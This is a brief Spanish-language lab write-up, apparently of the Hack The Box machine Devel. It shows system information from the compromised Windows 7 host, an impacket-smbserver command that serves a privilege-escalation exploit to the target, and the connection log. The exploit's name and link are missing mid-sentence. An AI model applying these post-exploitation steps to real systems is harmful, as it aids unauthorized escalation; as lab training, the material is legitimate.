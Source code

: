 ```
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.473 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.548 MB
Virtual Memory: In Use:    593 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::dd96:d4cb:3357:f4c
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e
```

Vemos que la versión de windows es bastante antigua *6.1.7600 N/A Build 7600* y que tienen un exploit llamado

Nos dscargamos el exploit de <>

nos compartimos el archivo con smbserver

```console
impacket-smbserver smbFolder $(pwd)
```

```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.5,49159)
[*] AUTHENTICATE_MESSAGE (\,DEVEL)
[*] User DEVEL\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>